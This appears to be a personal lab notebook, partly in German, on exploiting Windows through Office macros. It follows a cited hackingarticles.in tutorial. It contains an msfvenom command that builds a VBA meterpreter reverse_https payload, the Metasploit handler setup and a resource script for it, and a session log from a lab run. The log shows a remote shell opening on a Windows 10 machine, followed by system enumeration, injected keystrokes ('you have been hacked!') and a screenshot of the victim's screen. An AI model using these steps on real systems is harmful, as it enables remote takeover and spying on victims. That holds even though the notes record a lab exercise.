



[[Quelle](https://www.hackingarticles.in/multiple-ways-to-exploit-windows-systems-using-macros/)]

Let’s move on to a rather basic approach. This approach is quite detectable by almost all the Antivirus tools as the signature of the Metasploit Payload is quite common. Still to understand the basic attack and to perform in a lab environment, we will be using the Metasploit for exploiting our target via Marcos.  

To get started, we need to craft a payload. We will be using MSFvenom for crafting the payload. We used the reverse_http payload for this demonstration. We stated the Local IP Address of the Attacker Machine i.e., Kali Linux. We also need to provide a Local port for the session to get generated on. After generating the payload with the proper configuration for the vba payload, we copy the vba payload content and then move onto to the target machine.

```
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.178.81 lport=80 -f vba
```




```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 192.168.178.81
set lport 80
exploit
```





# Test 30.05.2021

Excel Makro anlegen siehe TODO

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 192.168.178.81
lhost => 192.168.178.81
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.178.81:80
[*] https://192.168.178.81:80 handling request from 192.168.178.82; (UUID: otm8nz65) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (192.168.178.81:80 -> 192.168.178.82:62085) at 2021-05-30 10:07:44 -0400

meterpreter > help
```

Resource Script dafür erzeugen

```
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_https\nset lhost 192.168.178.81\nset lport 80\nexploit\n" > msf_macro.rc
```

```bash
$ msfconsole -r msf_macro.rc
```



**Systeminformation** anzeigen:

```
meterpreter > sysinfo 
Computer        : DESKTOP-KB6QKG7
OS              : Windows 10 (10.0 Build 19043).
Architecture    : x64
System Language : de_DE
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Text aufs Opfersystem schicken (simuliert **Tastendrücke**):

```
meterpreter > keyboard_send "you have been hacked!"
[*] Done
```

Einen **Screenshot** vom Opfersystem erstellen:

```
meterpreter > screenshot
Screenshot saved to: /root/QMnwJkYX.jpeg
```

In einer anderen shell:

```bash
$ python3 -m http.server 8080
```

Im Browser (Kali) öffnen: `http://localhost:8080/QMnwJkYX.jpeg`

